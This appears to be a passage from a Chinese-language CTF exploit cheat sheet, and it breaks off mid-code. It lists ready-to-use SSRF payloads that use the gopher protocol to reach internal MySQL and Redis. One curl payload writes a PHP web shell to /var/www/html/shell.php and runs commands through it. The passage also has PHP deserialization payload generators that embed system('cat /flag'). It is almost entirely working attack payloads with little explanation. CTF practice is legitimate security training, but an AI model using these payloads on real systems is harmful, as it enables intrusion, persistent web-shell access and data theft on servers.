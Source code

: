 ### SSRF-007
gopher 协议 攻击 内网

**redis**

工具: [gopherus](https://github.com/tarunkant/Gopherus)
```text
proxy=gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%1c%00%00%00%03%75%73%65%20%63%74%66%3b%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%66%6c%61%67%3b%01%00%00%00%01
```

### SSRF-008
gopher 协议 攻击 内网

**redis**

```text
curl -X POST http://127.0.0.1:1408/ -d 'proxy=gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A'
curl http://127.0.0.1:1408/shell.php?cmd=cat+/flag
```

## 反序列化

### 反序列化-PHP-001
```php 
<?php
class Show
{
    public $show;
    public function __construct($show)
    {
        $this->show = $show;
    }
}
$show = new Show('system("cat /flag");');
echo base64_encode(serialize($show));
```

### 反序列化-PHP-002
```php 
<?php
class User
{
    public $username;
    public function __construct($username)
    {
        $this->username = $username;
    }
}

class Show
{
    public $show;
    public function __construct($show)
```